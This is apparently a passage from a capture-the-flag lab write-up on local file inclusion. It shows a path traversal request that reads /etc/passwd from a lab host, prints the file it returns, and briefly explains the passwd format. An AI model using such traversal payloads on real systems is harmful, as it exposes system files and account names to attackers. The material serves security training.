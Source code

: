 You can read the [interesting files to check out](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks) while testing for LFI.

[http://10.10.109.9/home?page=../../../../etc/passwd](http://10.10.109.9/home?page=../../../../etc/passwd)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

`No answer needed`

3. Once you include `/etc/passwd` then you should see entries something like:

    root:x:0:0::/root:/bin/bash
    bin:x:1:1::/:/sbin/nologin
    daemon:x:2:2::/:/sbin/nologin
    
To understand all those entries read [this](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) article.

This file can give information about the system like the name of all the existing users on the system.

`No answer needed`
